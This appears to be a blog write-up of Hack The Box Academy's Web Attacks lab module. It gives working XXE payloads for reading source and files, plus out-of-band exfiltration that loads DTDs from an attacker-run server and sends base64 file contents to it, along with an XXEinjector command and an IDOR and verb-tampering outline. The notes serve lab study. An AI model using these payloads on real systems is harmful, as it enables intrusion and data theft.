 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Web Attacks"
description: "Explore this detailed walkthrough of Hack The Box Academy's Web Attacks module. Learn effective techniques to perform http verb tampering,Insecure Direct Object References (IDOR), XML External Entity (XXE) Injection and  elevate your penetration testing skills with step-by-step insights from Zwarts Sec."
date:   2024-11-11 22:31
image:  /images/htb/web-attacks/logo.png
tags:   [httb-verb-tampering,idor,xxe,cbbh]
categories: [htbacademy]
---
```


### Explore this detailed walkthrough of Hack The Box Academy's Web Attacks module. Learn effective techniques to perform http verb tampering,Insecure Direct Object References (IDOR), XML External Entity (XXE) Injection

>
<b>References:</b>
<br/>
<a href="https://academy.hackthebox.com/module/134/section/1158">Web Attacks</a><br/>
<a href="https://jacozwarts.github.io/images/htb/web-attacks/Web_Attacks_Module_Cheat_Sheet.pdf">Web Attacks - Cheat Sheet</a><br/>

# Notes:

### XXE

#### Read PHP source code with `base64` encode filter

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root><name>Test</name>
<tel>01234566789</tel>
<email>&company;</email>
<message>Testing form</message>
</root>
```

#### Advanced File Disclosure - Exercise
<a href="https://academy.hackthebox.com/module/134/section/1206">Hack The Box - Advanced File Disclosure</a><br/>

##### CDATA
`CDATA` is used to output data that does not conform to the XML format, we can wrap the content of the external file reference with a CDATA tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

```
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/index.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

`Below explanation is extracted from Hack The Box Web Attacks - CDATA:`

After that, if we reference the `&joined;` entity, it should contain our escaped data. However, this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.

To bypass this limitation, we can utilize XML Parameter Entities, a special type of entity that starts with a % character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined.

1. Create dtd file:
```
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
```
2. Start python web server on port 8000
```
python3 -m http.server 8000
```
3. Send updated payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> 
  <!ENTITY % file SYSTEM "file:///flag.php"> 
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://{IP_ADDRESS}:8000/xxe.dtd">
  %xxe;
]>
<root><email>&joined;</email></root>
```
![XXE CDATA Result](/images/htb/web-attacks/xxe_cdata.png)

##### Error Based


`Extracted from Hack The Box Web Attacks - Error Based XXE`

If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss in the next section.


Steps to read the `flag.php` using `Error Based` XXE:
1. Inject and invalid parameter to see if errors are returned.

![XXE Error Based Request](/images/htb/web-attacks/xxe_error_based.png)

2. Create a dtd file with the below payload:

```
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

3. Create a python webserver
```
python3 -m http.server 8000
```

4. Send the below request to read flag.php
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.205:8000/xxe_error.dtd">
  %remote;
  %error;
]><root>
<name>Error based XXE</name>
<tel>0123456789</tel>
<email>test@gmail.com</email>
<message>Testing for Error based XXE</message>
</root>
```

![XXE Error Based Result](/images/htb/web-attacks/xxe_error_based_result.png)
<hr/>

#### Blind Data Exfiltration - Exercise

##### Manual:

1. Create the dtd file to exfiltrate the flag:
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/{Flag_file.php}">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://{YOUR_IP_ADDRESS}:8000/?content=%file;'>">
```

2. Create the php file to display the request's content:
```
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

3. Start the PHP server:
```
php -S 0.0.0.0:8000
```

4. Submit the payload to trigger the Blind Data Exfiltration:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://{YOUR_IP_ADDRESS}:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

<hr/>

##### Using <a href="https://github.com/enjoiz/XXEinjector">XXEInjector</a>:
1. Save request from proxy to a file `xxe.req`
2. Execute below command to run XXEInjector:
```
ruby XXEinjector.rb --host={YOUR_IP_ADDRESS} --httpport=8000 --file=/tmp/xxe.req --path=/{FLAG_FILE.php} --oob=http --phpfilter
```

<hr/>

## Skills Assessment
><b>Overview:</b>
You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.<br/><br/>The login details are provided in the question below.<br/><br/>

Work in progress:

1. Login with the credentials provided
2. Intercept all request and explore the App's Main feauters
IDOR to get user details - look for admin user
get user token
reset user - Notice denied and try http verb tampering. change to PUT and add query parameters.
Login with admin user
Explore new features notice create event notice this requests uses xml. Submit an event and see if any of the parameter's are displayed in the response.
Use php filter to test to see if we can read local files
Update the payload to read /flag.php


<hr/>